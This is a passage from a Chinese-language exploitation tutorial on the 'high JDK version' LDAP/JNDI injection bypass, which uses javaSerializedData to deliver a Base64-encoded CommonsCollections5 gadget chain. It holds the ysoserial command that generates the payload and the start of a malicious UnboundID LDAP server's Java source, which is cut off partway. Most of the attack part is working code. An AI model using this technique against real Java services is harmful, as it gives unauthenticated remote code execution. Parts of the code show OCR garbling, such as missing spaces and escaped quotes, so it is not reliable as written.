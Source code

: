   
  
3.2  
  
   
LDAP高版本绕过  
  
3.2.1 Base64字节码加载  
  
JDK 6u211，7u201，8u191, 11.0.1开始 com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值被调整为false，导致LDAP远程代码攻击方式开始失效。  
  
这里可以利用javaSerializedData属性，当javaSerializedData属性的value值不为空时，会对该值进行反序列化处理，当本地存在反序列化利用链时，即可触发。  
  
如果目标存在CC链利用链，先使用ysoserial.jar生成CC链的poc  

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 &#34;open -a calculator.app&#34; > poc.txt
cat poc.txt|base64 >base64.txt
```

  
转换为base64编码后放到如下服务端代码里,代码的String[]字符串里面ip不影响payload执行。  

```
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;


publicclassLDAPServer{
    privatestaticfinal String LDAP_BASE = &#34;dc=example,dc=com&#34;;


    publicstaticvoidmain( String[] tmp_args )throws Exception{
        String[] args=new String[]{&#34;http://localhost/#Evail&#34;}; 
        int port = 6666;


        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                &#34;listen&#34;, //$NON-NLS-1$
                InetAddress.getByName(&#34;0.0.0.0&#34;), //$NON-NLS-1$
                port,
```